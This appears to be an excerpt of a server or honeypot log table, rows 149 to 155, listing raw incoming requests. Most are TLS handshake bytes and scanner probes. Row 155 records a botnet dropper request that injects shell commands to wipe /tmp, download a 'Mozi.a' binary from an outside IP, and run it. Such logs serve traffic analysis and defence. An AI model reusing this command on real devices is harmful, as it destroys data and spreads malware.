 | 149 |                     1 | \x16\x03\x01\x00\x8D\x01\x00\x00\x89\x03\x03\xE6\xFAVc\xC7\x0E\x1E\x00\xCB~\x9F]P\xD8\xF3\x15\x11\xCAZA\xE8V\xA7\x83\xF7\x00\xDB\xA6\x02\xE5\xAC\xCD\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 150 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03\xE7\xAF\xFBa'\x14U\xD1/ '\xC0\xC8ps\x07\xD9\x08{\x132\xF2\x11\xE7\xFA\xE6\x19\x09\xB4#\x03\xF7 \xA0\x96x{&\xC7E\xEC(`\x8Do$\xA6N\x87b\x9CX\xCAt\x9DC\xB8\xC8\x7Fd\x91\x07\x83\x96\xE2\x00&\xCC\xA8\xCC\xA9\xC0/\xC00\xC0+\xC0,\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| 151 |                     1 | GET /OdinHttpCall1742751356 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 152 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03<\x16\xDA\xED\xBA\x16\xC1\xDB\x18\xD8\xA9\xB7ih}a\x08[~\x05\xA4\x87\xC3\xEF;\xB3.T\xB9Vw\xBC +\xE6z\x9B\xDC;!\xC1\xCCu\xCC\x00d\xB5\xD4\xF7\xBFCe-\x85\xAE\xEA\x86\xE6-\xFD\xB8\xD5\x0F\xF5\xEF\x00&\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| 153 |                     1 | GET /bNXU HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 154 |                     1 | GET /q1jP HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 155 |                     1 | GET /shell?cd+/tmp;rm+-rf+*;wget+http://1.20.91.26:36758/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |